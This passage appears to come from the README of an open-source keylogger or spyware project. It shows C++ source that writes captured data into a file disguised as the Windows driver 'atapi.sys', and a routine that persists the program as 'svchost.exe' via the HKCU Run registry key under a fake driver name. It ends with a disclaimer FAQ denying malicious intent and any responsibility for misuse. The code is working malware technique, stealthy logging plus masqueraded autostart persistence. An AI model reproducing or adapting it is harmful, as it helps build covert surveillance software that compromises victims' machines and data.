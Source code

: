 ```
	char szDir[260];
	strcpy(szDir,ff_path.c_str());
	strcat(szDir,"atapi.sys");
	FILE *file;
	file = fopen(szDir, "a+");

	fputs(dateCh,file);
	fclose(file);

}
```

#### AutoStart on System Bootup

```
void AutoStart()
{
	char Driver[MAX_PATH];
	HKEY hKey;
	string ff_path = userlc + "svchost.exe";
	strcpy(Driver,ff_path.c_str());
	RegOpenKeyExA(HKEY_CURRENT_USER, "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 0, KEY_SET_VALUE, &hKey);
	RegSetValueExA(hKey, "Windows Atapi x86_64 Driver", 0, REG_SZ, (const unsigned char *)Driver, MAX_PATH);
	RegCloseKey(hKey);
}
```

### Happy Cyber Security
### Happy Open Source......


<h3>Disclaimer</h3>

We wish to clarify our stance on certain matters regarding our services. Please read the following FAQ to better understand our policies and principles:

**FAQ:**

1. **Do you develop malware for personal use or any malicious intent?**
   - No, we categorically do not engage in the development, distribution, or customization of malware, viruses, or any form of malicious software. Our focus is solely on ethical and legal technology solutions.

2. **Do you offer customization services for malware or malicious tools?**
   - No, we do not provide customization services for any malicious software, including malware, viruses, or other harmful code. Our services are designed to align with ethical and legal standards.

3. **What is your responsibility when it comes to the use of your products or services?**
   - While we provide services and products, we are not responsible for any misuse or illegal application of our offerings. Users are expected to adhere to all applicable laws and regulations when using our products and services.
